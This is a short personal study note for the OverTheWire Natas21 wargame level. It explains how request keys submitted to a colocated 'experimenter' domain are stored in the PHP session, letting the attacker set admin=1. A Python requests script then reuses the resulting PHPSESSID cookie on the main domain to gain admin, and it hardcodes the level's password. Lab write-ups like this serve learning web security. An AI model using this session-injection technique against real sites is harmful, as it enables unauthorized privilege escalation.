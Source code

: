 
2024-07-22 16:21

Source: #natas #web #py 

Tags: [[PHP]] 

## Natas21

- we have 2 domains 
- 1st domain 
	- only calls the print flag function and has text that mentions the other domain 
- 2nd domain 
	- if they submit to the page, every single key in the requests is actually stored in session. 
- by setting debug = true and submit = 1 in the `get` request we get to know that it's gonna read the `get` variables just as well as it would have read the `post` variable
- since the websites are collocated the session id is assumed to not change
we need the same session already occurring similar to [[PHPSESSID & session handler w py]] Natas20

```
import requests
username = 'natas21'
password = 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH'

url = 'http://natas21.natas.labs.overthewire.org/?debug=true'

experiment = 'http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'

session = requests.Session()

 # Getting the cookie from experiment domain we declare admin = 1 in `get` request in the url this can also be done via `post` method

response = session.get(experiment,auth=(username,password))
old_cookie = session.cookies["PHPSESSID"]

# using previously aquired session cookie in the main domain

responses = session.get(url,cookies= {"PHPSESSID" :old_cookie},auth=(username,password))
print(responses.text)
```
### TLDR

- We are forcing admin = 1 on experiment domain to get the session cookie of an admin account 
- since the session id is same for both the domains we copy the cookie from the experiment domain and use it in the main url to become admin and get the flag 

### References
https://www.youtube.com/watch?v=iFgQyI3Vfag